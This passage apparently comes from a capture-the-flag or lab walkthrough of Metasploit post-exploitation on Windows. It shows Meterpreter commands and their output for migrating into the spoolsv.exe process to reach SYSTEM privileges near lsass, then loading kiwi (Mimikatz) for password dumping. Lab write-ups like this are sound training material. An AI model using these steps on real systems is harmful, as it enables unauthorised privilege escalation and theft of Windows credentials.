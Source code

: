 > Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't).

### 5.2 

> In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?
> Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell.

* `spoolsv.exe` : run `ps` to get the process list

### 5.3

> Migrate to this process now with the command `migrate -N PROCESS_NAME`

* ` migrate -N spoolsv.exe

### 5.4

> Let's check what user we are now with the command `getuid`. What user is listed?

  ```bash
  meterpreter > getuid 
  Server username: NT AUTHORITY\SYSTEM
  ```

### 5.5

> Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)

  ```bash
  meterpreter > load kiwi 
  Loading extension kiwi...
    .#####.   mimikatz 2.2.0 20191125 (x64/windows)
  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
  ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
  '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
    '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

  Success.
```

### 5.6

> Loading kiwi into our meterpreter session will expand our help menu, take a look at the newly added section of the help menu now via the command `help`.
